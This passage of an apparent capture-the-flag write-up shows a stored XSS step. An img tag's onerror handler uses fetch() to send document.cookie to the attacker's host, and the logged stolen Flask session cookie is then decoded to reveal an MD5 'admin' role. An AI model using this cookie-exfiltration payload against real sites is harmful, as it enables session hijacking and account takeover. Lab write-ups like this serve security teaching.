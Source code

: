 

    <img src="http://10.10.14.6/service" onerror=fetch("http://10.10.14.6/?c="+document.cookie) />



I'll send that in Repeater:

![](/img/image-20240712230109432.png)

And there's a connection with the cookie:



    10.10.11.12 - - [12/Jul/2024 23:01:07] code 404, message File not found
    10.10.11.12 - - [12/Jul/2024 23:01:07] "GET /service HTTP/1.1" 404 -
    10.10.11.12 - - [12/Jul/2024 23:01:08] "GET /?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZpGnpw.yZMEmiZOTLiezgsFo846uaB6bVY HTTP/1.1" 200 -



That cookie looks like a JWT or Flask cookie, and given that site is
likely running Flask, that fits:



    oxdf@hacky$ flask-unsign -d -c eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZpGnpw.yZMEmiZOTLiezgsFo846uaB6bVY
    {'role': '21232f297a57a5a743894a0e4a801fc3'}



The cookie kind of looks like an MD5 hash, and in fact it is the hash of
"admin":



    oxdf@hacky$ echo -n "admin" | md5sum
    21232f297a57a5a743894a0e4a801fc3  -

